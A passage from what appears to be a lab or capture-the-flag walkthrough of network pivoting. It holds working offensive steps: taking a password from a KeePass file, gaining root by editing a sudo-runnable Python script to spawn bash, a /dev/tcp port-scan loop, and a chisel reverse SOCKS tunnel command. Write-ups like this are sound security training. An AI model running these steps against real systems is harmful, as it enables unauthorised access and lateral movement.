         
    
    - We use the password found to view the contents of the .kdbx file. We see the password of the user `freddy`
        
        ![image 26](https://github.com/user-attachments/assets/3df11fc3-97ac-43f5-8faf-e8aeb8208a07)

        
    
    - We connect as freddy and list the commands that we can execute as sudo without providing a password
        
        ![image 27](https://github.com/user-attachments/assets/9073d341-924b-4bd6-b054-e7f060a5687b)

        
        ![image 28](https://github.com/user-attachments/assets/c5008308-af1f-454e-899a-886953945eb3)

        
    
    - We see that we can execute a python file without providing a password. We have permissions to modify the file, so we modify it to spawn a shell as root.
        
        ```python
        import os
        os.system("/bin/bash")
        ```
        
        ![image 29](https://github.com/user-attachments/assets/c4b6d6c7-7124-4e52-8b4a-1e2b11041c88)

        
        ![image 30](https://github.com/user-attachments/assets/0f6e0b12-ccb9-47a2-93ec-ae66f12c2287)

        
    
    - We apply a reconnaissance to see what other hosts are on network 30.30.30.0/24
        
        ```bash
        #!/bin/bash
        
        for i in $(seq 1 254); do
        	for port in 21 22 80 443 445 8080; do
        		timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$i/$port" &>/dev/null && echo "[+] Host 30.30.30.$i - PORT $port - OPEN" &
        	done
        done; wait
        
        ```
        
        ![image 31](https://github.com/user-attachments/assets/9bf39647-1413-4d5b-9e19-72f6e0e796b7)

        
        ![image 32](https://github.com/user-attachments/assets/9fbe5340-3d36-4c35-8a50-914adfae9229)

        
    
    - We create a tunnel between the three machines using `chisel`and `socat`
        
        ```python
        #Execute this from the 20.20.20.3 machine
        ./chisel client 20.20.20.2:4237 R:8888:socks
        